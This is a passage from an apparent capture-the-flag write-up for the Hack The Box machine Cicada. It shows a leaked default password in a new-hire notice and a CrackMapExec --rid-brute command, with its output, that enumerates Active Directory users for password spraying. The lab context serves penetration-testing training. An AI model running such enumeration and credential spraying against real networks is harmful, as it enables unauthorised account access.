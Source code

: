 We can download it to view its contents:

<br />

```bash
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

<br />

Apparently, this is a welcome note for new employees at the company.

The most relevant detail in the output is the company default password: `Cicada$M6Corpb*@Lp#nZp!8`.

With this information, we can use CrackMapExec’s `--rid-brute` flag to enumerate users and check whether any of them are still using the default password.

<br />

```bash
❯ cme smb cicada.htb -u 'RandomFakeUsername' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\RandomFakeUsername: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
```